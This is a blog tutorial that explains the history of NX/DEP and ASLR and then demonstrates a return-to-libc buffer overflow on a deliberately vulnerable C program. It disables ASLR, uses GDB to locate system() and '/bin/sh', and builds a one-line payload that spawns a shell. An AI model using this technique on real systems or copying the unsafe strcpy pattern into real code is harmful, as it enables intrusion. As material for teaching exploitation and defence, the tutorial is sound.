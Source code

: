 ```yaml
---
layout: post
title: Bypassing NX/DEP
date: 2017-10-02 21:28:16
description: Tutorial I go through bypassing NX/DEP and the history of this security mechanism.
tags: "reverse engineering", pwn, x86, nx, hacking
categories: blog
---
```

![Ryoko vs Nagato](/assets/img/Ryoko_vs_Nagato.png "Ryoko vs Nagato"){:class="featured-image"}

Alright, SO! I've spent about 14hrs working on this tutorial with my Kali box, and kept getting different addresses for the dynamic libraries. Still haven't learned why this is, but I WILL find the solution for this.

---

## Abstract:

In this writeup, I'll be going over the mechanism that makes enables programs to not have an executable stack, the history of it, and how to bypass this.

---

## History

Starting in 1961, the Burroughs 5000 had hardware support to prevent the entire stack from being executable. They implemented a tagged architecture, which provides an extra bit per word to signify if the word is executable or not.

- [Burroughs Large Systems](https://en.wikipedia.org/wiki/Burroughs_large_systems#Tagged_architecture)
- [Tagged Architecture](https://en.wikipedia.org/wiki/Tagged_architecture)

---
![B5000](/assets/img/b5000.png "B5000"){:class="featured-image"}
Executive space protection has also been incorporated into operating system design to prevent code injection. Here are a few operating systems and when they implemented NX into their OS':

### Linux:
![linux](/assets/img/penguin.png "linux"){:class="featured-image"}
- Android 2.3 and later have NX pages by default.  
- Some modern Linux distros don't enable "HIGHMEM64" (a way to increase the usable address space) by default, which is required for NX in 32-bit mode. This is because it causes boot failures on pre-Pentium Pro and Celeron M processors without NX support.  
- Ubuntu has always had NX memory protection so long as there was hardware to support it as well. In a case where you don't have hardware to support it, Ubuntu's 32-bit kernels provide an approximation of the NX CPU feature via emulation.

### Mac OS:
For macOS, their Intel chips support the NX bit, though the version determines what areas have the feature to be or not to be executable. (s/o to Shakespeare xD)  
- Mac OS X 10.4 only supported NX on the stack, whereas Mac OS X 10.5's 64-bit executables have NX stack and heap protection.

### Windows:
It wasn't until:
- Windows XP SP2 (2004) and Windows Server 2003 SP1 (2005) that the NX features were first implemented on the x86 architecture.  
Microsoft defines areas in a program that are Non-Executable as "Data Execution Prevention" or DEP.  

However, there are a few clauses:  
1. Only critical Windows Services utilized DEP.  
2. These features were only turned on by default if the hardware supported the feature. If it didn't, no protection was given.  

These versions didn't have Address Space Layout Randomization (ASLR), which "randomly arranges the address space positions of key data areas of a process, including the base of the executable and the positions of the stack, heap, and libraries."  

Later versions like Windows Vista and Windows Server 2008 had both ASLR + DEP. For the 32-bit version of these systems, Microsoft added Physical Address Extension (PAE). 64-bit systems have ASLR + DEP natively.  

From version Vista on, users can determine whether DEP is enabled or disabled for a particular process in the **Processes** tab of the **Windows Task Manager**. Microsoft implements software DEP called "Safe Structured Exception Handling" (SafeSEH). When there's an attempt to execute code in an area that's not allowed, it checks the exception handler table and calls the correct exception for this incident.

---

## Time for the more fun part! Let's get exploiting!

This little `vuln.c` program takes the input from the argument, and then prints it.

Nothing too crazy here:

```c
#include <stdio.h>
#include <string.h>

int main (int argc, char** argv) {
    char buf[20];
    strcpy(buf, argv[1]);
    printf("%s\n", buf);
    return 0;
}
```
Before we compile this, we must turn off ASLR. By disabling ASLR, we can see the real physical addresses. Don't worry, I will have tutorials for defeating ASLR soon enough. ;)



## Disable ASLR
```bash
echo 0 > /proc/sys/kernel/randomize_va_space
cat /proc/sys/kernel/randomize_va_space
```

Now that we've disabled ASLR and verified it's off, let's compile the program and enable NX.

```bash
gcc -fno-stack-protector vuln.c -o vuln
execstack -c vuln
```

Perfect! Before we break this down with GDB, we gotta go over what's happening. When we execute, it grabs the dynamic libraries that are imported and all their functions and places them in memory (even the functions that aren't being used in the program).

This is important because the libc library also contains the function system(). The first argument of system() will execute a Linux command. We will be executing "/bin/sh" which will get us a shell. We also must find the string "/bin/sh" (which is also in libc). ;D

![nx-ex1](/assets/img/nx-ex1.png "nx-ex1")

## Breaking It Down in GDB
Sweet. So now let's set a breakpoint at main, and then find the address of the system() function.
```python
(gdb) break main
(gdb) run
(gdb) print system
(gdb) find &system, +99999999, "/bin/sh"
```
![nx-ex2](/assets/img/nx-ex2.png "nx-ex2")

Awesome!! So we have the address for system() → 0xb7e56190 && "/bin/sh" → 0xb7f76a24.

## Exploiting the Vulnerability
Now we have all our variables that we need. So to push our addresses onto the stack, we create a string that has:

1. 32 bytes of crap (A's),
2. then the address for system(),
3. then 4 bytes of crap again,
4. and then the string "/bin/sh".

```bash
./vuln $(python -c 'print "A"*32 + "\x90\x61\xe5\xb7" + "A"*4 + "\x24\x6a\xf7\xb7"')
```
![nx-ex3](/assets/img/nx-ex3.png "nx-ex3")

Who got shell? We got shell!!!!

## Additional Resources
- [Exploit Development: Stack Buffer Overflow Bypass NX/DEP](https://tehaurum.wordpress.com/2015/06/24/exploit-development-stack-buffer-overflow-bypass-nxdep/)
- [Executable Space Protection](https://en.wikipedia.org/wiki/Executable_space_protection#OS_implementations)
- [Another Bypassing NX Tutorial](https://sploitfun.wordpress.com/2015/05/08/bypassing-nx-bit-using-return-to-libc/)
- [What is the use of -fno-stack-protector?](https://stackoverflow.com/questions/10712972/what-is-the-use-of-fno-stack-protector)
- *Hacking: The Art of Exploitation* by Jon Erickson - [Buy on Amazon](https://www.amazon.com/Hacking-Art-Exploitation-Jon-Erickson/dp/1593271441)
- [lpr LIBC RETURN Exploit](http://insecure.org/sploits/linux.libc.return.lpr.sploit.html)
- [Microsoft's Implementation of NX (DEP)](https://msdn.microsoft.com/en-us/library/windows/desktop/aa366553(v=vs.85).aspx)
- [Detailed Description of the DEP Feature](https://support.microsoft.com/en-us/help/875352/a-detailed-description-of-the-data-execution-prevention-dep-feature-in)
- [ASLR on Address Space Layout Randomization](https://en.wikipedia.org/wiki/Address_space_layout_randomization)
- [Safe Structured Exception Handling (SafeSEH)](https://msdn.microsoft.com/en-us/library/windows/desktop/ms680657(v=vs.85).aspx)
- [Address Space](https://en.wikipedia.org/wiki/Address_space)
- [Dynamic Memory Allocation](https://en.wikipedia.org/wiki/Dynamic_memory_allocation)
- [Stack-based Memory Allocation](https://en.wikipedia.org/wiki/Stack-based_memory_allocation)
